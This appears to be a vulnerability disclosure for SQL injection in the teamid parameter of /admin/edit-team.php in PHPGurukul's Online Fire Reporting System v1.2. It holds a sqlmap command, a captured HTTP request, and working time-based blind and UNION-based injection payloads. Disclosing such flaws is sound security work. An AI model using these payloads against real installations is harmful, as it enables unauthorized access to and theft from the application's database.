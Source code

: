 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/edit-team.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/edit-team.php

**Version**

- V1.2

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
GET /admin/edit-team.php?teamid=1 HTTP/1.1
Host: www.firereport.top
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```



```
---
Parameter: teamid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: teamid=1' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))hXbt)-- lWfl

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: teamid=1' UNION ALL SELECT NULL,CONCAT(0x7162626271,0x524a6c6b5067766f4779526a6a6d42504d6f62516143636f50465a6b644767494e49556768496a57,0x717a6a6a71),NULL,NULL,NULL,NULL-- -
---
```

